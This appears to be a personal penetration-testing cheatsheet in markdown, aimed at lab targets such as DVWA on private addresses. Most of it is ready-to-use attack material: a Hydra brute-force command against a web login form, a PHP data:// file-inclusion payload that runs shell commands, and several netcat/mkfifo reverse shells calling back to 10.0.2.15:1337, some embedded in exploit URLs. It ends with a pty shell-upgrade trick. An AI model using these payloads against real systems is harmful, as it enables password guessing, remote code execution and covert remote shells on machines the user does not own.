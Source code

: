 # Cheatsheet 

## Sending And Receiving Files With Netcat

###Sending
`nc DESTINATIONSERVER PORT < FILENAME`

###Recieving
`nc -l -p PORT > FILE`


## Change The Time

`date -s "DD MMM YYYY HH:MM:SS"`


## GIT

```bash
git init in your desired directory
git add (your file)
git commit -m (your message)
git push
```

## Hydra Basic Stuff

```bash
hydra -l admin -P /usr/share/dirb/wordlists/small.txt 192.168.1.101 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login failed" -V
```
-l indicates a single username (use -L for a username list)  
-P indicates use the following password list  
http-post-form indicates the type of form  
/dvwa/login-php is the login page URL  
username is the form field where the username is entered  
^USER^ tells Hydra to use the username or list in the field  
password is the form field where the password is entered (it may be passwd, pass, etc.)  
^PASS^ tells Hydra to use the password list supplied  
Login indicates to Hydra the login failed message  
Login failed is the login failure message that the form returned
-V is for verbose output showing every attempt

## PHP
http://10.0.2.100/vulnerabilities/fi/?COMMAND=ls&page=data://text/plain,%3C?php%20system($_GET[%27COMMAND%27]);%20?%3E


##NC Reverse Shell

###Terminal
`nc -lvvvnp 4444`

###Target
`nc <your IP> 4444 –e /bin/bash`

http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>

10.0.2.4:8380/index.php?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


rm /tmp/fifo.tmp; mkfifo /tmp/fifo.tmp; cat /tmp/fifo.tmp | sh -i 2>&1 | nc 10.0.2.15 1337 >/tmp/fifo.tmp


TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>&1 | nc ${TARGET} ${PORT} >${PIPE}

- Note 2 self: URL encode ampersand `&` naar `%26` ivm url betekenis!
http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


##BASH STUFFS
`ls -all`
`find <desireddirectory> | grep <filename>`

```bash

##Propper shell
`echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py`
`python3 /tmp/asdf.py`
```bash
